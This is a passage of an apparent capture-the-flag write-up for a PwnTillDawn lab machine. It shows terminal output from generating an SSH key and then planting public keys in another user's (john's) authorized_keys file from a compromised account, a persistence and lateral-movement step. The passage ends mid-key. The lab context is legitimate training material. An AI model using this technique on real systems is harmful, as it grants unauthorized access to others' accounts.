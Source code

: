 Now Lets create a SSH key for authentication and for authorized_keys inclusion →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.55]
└─$ ssh-keygen                              
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): id_rsa
id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:v0qPNhkTDMylOgRm6ItNgKoIijaW0JZbJ7KmPmBv9RA kali@kali
The keys randomart image is:
+---[RSA 3072]----+
|..+  o ..        |
|+o .  +.         |
|oo .. .o         |
|+.*.oE. o        |
|O+o=oo. S.       |
|BB=  +  o.       |
|=oo . o .+.      |
|.. o   o+o .     |
|..o    .ooo      |
+----[SHA256]-----+

┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.55]
└─$ cat id_rsa.pub > authorized_keys
```
{: .nolineno}
{: .nolineno}

Now lets include this authorized_keys into john’s →

```bash
sally@ubuntu:~$ nano /home/john/.ssh/authorized_keys
sally@ubuntu:~$ cat /home/john/.ssh/authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDGsRHq3G3A8wUhMBmvlAFqZ9duAMS9FeblyELWxF0mBUWwoK6ACpIrjyKJTJ5wNQKGckeHpeh6MTcbNDPRvRyPo9jp
gsmY0ivl/WkrwSluadrp/2EtECeJr74gwFvyDqvbctCN4idqLDcyCiNcT+jCn/7VYIdEADnG9o6E82bmo4umtZLb/UPmrKPpDcrmsCEH081f/GNdezvoW8KkpTG5o27A
5OPlO73Tc46OvRRvMDyKkV/Y9QP0BoNLdmEIAWYvBFVUgnR+i5KaDyOtz+NfgrZvfSP/rqwZrTluEaVT6ttdOzKMiGVsbQELRVZL9Xxcmn70rzRba79a8FVw9+lxFFNO
vMvosqtXJRbTCV8pthef+lmw2fIk69gM07n14+OYRAJGDfppmaKHXBC2wFWKFxsVEcDSl8RP4R4bKbgpHCDWePBg7+eaHTAWBQuD/2WAEZMqGvMveMnP80mn+j6l52hj
/immZsJyGfH0ohvwVreiBN4VBsHL9ESy2x8X5yc=
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDC/tCsIkFHZl1BRgWmzpmBBgoKtd3lMgKBnB50+YogeWQp6JmjpupwEpdt2egRkNMUhXPhqwQpiTmKN9+YsvuPMRuV
NDbvlNsHvAThgAsNVcyW3ynJ5rJ7Ra9y8AAKvVbRSe4c75zPlGwUCMrjJCL1SPz/FmSmWkCVYTqrInfAlwPG4ZfWwMuDUFEHA0N3LP89p+paHoGzsHfuVTVd9qhwYZ3Q
htPXJ5SgyzBfUq9sRB5B0+4OVOLrl01/Ddwe2OZRVz8hN6p+ypwtU26pOXMfCZTannAVMDhvEcVTGzYiqrolCboXgFhyHYHOBcbCtBLCXLkoUE5/z4YIAeMDyYKDK2J+
++S4Q8ZsOUYRA+6BdjidE2HWcinueBRRe/VUW+9SeW6O4o4zSgt5716LKCrNbOyATFugQTOjv/qkMUVJQ9EqOHvvJ9xDcy93/ZU5nlOamfAsqe/EF1qZm7Bb/w+NNyNN
2coJZ7fS/IckwX6ss8Oof1yxW2ca6FzgBG7Q6LM= wlx@Kalynx
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC+auZIqIZ8OFsSiTy/CBnr9/VjNGaZIa7zdZjQguLHKBbesy9V4eigh1arj3IQR8OemtfBM1xTbO1VgJtQQiovDmSk
VBw517RNHLHpPyjHKzjq3Agkd7IkIIVGQq9Zxw3Jjyjqr4IBNyJ3RjrUJA+yo5dK2IKmfOPkSl5ur26wo/iNLvg5cbpjZQlmyshRp7VXoqcDZHPnyL+6FEHSWgMp63LG
3+Ol0h5tnPQDaBdKkwAkkOCB2XF4ElEam7MACd5yHvI56EBQB13QIOp3Nis1C4bitNeky7gM7F75EZoNDWc4Om0lr4MY3+sF709tLpt1TCtlFcUvbFWIlQIL6u4GFT6s
fsW2o7KNdDdGlhYyvkySW/MRNx49giVSAWBmRAKHcpez7EqPW4B6CHApX7B/xY/Ait5aP3iDHvGlhJ+MdEit/LXf46ccdVMRWCMeV3iV8xSQhiBJ2Xuyahs2OUtqXjgQ
```
